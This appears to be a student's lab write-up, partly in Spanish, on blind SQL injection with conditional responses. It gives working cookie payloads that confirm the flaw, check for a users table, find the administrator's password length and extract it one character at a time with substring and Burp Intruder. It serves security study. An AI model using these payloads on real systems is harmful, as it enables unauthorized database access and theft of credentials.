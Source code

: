 
# Blind SQL injection with conditional responses

Blind SQL injection arises when an application is vulnerable to SQL injection, but its HTTP responses do not contain the 
results of the relevant SQL query or the details of any database errors.
With blind SQL injection vulnerabilities, many techniques such as UNION attacks,
are not effective because they rely on being able to see the results of the injected query within the application's responses.
It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.

## Paso 1

Identificar que en la cookie existe una inyeccion SQL.

En este ejemplo tenemos una cookie "TrackId" primero se prueba si es vulerable 

```
Cookie: TrackingId=HjnfhA06d5ESS3fR'and 1=1--; session=BTTP2qL1z1a4sJNyePUM0DOuWo4UsYyu
Cookie: TrackingId=HjnfhA06d5ESS3fR'and 1=2--; session=BTTP2qL1z1a4sJNyePUM0DOuWo4UsYyu
```

Si regresa el mensaje de "Welcome back" eso quiere decir que esta interpretanod nuestro codigo. Probar con 1=2 para que de false porque una se evelua con true
y la otra con false.

## Paso 2

(falta saber como se supo que tenidamos estas tablas y usuarios)

El siguiente paso es probar si la tabla users existe eso se hace con una consulta la cual pone una x(o cualquier caracter) 
en cada fila por cada registro que exista dentro de la base:

```
Cookie: TrackingId=UHO0YeDpDdzu3u9A' and (select 'x' from users limit 1)='x'-- // recuerda el ctrl + U

```

Si nos da el mensaje de "Welcome back" quiere decir que es true y que esta tabla users existe. 
***Select 'x'...*** es una sentencia que pone una x por cada fila que tenga la tabla en este caso se limita a 1
y como se iguala a x si exite seria x=x lo que regresa true 

## Paso 3 

Ir sacando datos evaluando con true or false


```
'and (select 'a' from users where username='administrator')='a'--

'and (select username from users where username='administrator')='administrator'--


```

Primero se checho si existe el usuario "administrator (que si existe porque devolvio true por tanto el mensaje de welcome bacK)
Se hizo con diferentes metodos todos probados y funcionaron por eso hay 2 sentencias de unos
a


## Paso 4

Sacar el password. Primero se saca el len del password para posteriormente irlo sacando
Se utilizo el ***Intruder*** dar clear y poner add en la payload poner snipper 
y revisar cuando las peticiones son diferentes.


```
'and (select username from users where username='administrator' and length(password)>19)='a'--

'and (select 'a' from users where username='administrator' and length(password)>19)='a'--

```

Dio 20 aunque la consulta de 

```

'and (select 'a' from users where username='administrator' and length(password)>20)='a'--
 
```


Para el segundo query caracter ya da false porque el numero es 20 no mayor a 20 


## Paso 5

Se utiliza substring para sacar los datos las posiciones empienzan index 1.


```
'and (select substring(password,1,1) from users where username='administrator')='a'--
```

